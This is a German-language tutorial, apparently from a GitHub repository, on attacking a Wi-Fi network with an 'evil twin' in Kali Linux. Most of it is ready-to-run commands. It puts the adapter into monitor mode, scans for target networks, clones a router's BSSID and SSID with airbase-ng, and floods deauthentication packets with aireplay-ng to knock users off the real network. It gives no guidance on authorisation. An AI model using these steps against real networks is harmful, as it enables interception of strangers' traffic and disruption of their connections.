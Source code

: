 

# 3. WLAN mit einem Evil Twin hacken in Kali Linux


## Einen Evil Twin erstellen, um ein Netzwerk aufzusetzen, bei dem der PC vorgibt, der WLAN-Router zu sein.


```
$ sudo apt install bridge-utils
```


- Nun muss der WLAN-Adapter in Monitor-mode:

```
$ iwconfig
```
```
$ sudo airmon-ng check
```
```
$ sudo airmon-ng check kill
```
```
$ sudo airmon-ng start wlan0
```
```
$ iwconfig
```


- Netzwerk "fälschen":
Hinweis: Signal von dem gefälschten Netzwerk ist natürlich deutlich schwächer, hier muss ggf. nachgeholfen werden. 

```
$ sudo airodump-ng wlan0mon
```
```
$ airbase-ng -a *mac-adresse(meist als "BSSID" gekennzeichnet)* --essid *SSID(Name)* -c *CHANNEL (z.B.1)* wlan0mon
```

### WICHTIG:
Wenn bei der SSID Leerzeichen sind, dann muss ein `\` vor das Leerzeichen gesetzt werden.

- Der Evil Twin ist jetzt gestartet, allerdings wird noch keine Internetverbindung zur Verfügung gestellt. !


Neues Terminal Fenster öffnen:
```
$aireplay-ng --deauth 100 -a *BSSID* wlan0mon
```

(100 = Anzahl der Aufforderung sich nicht mit dem originalen Netzwerk zu verbinden.)
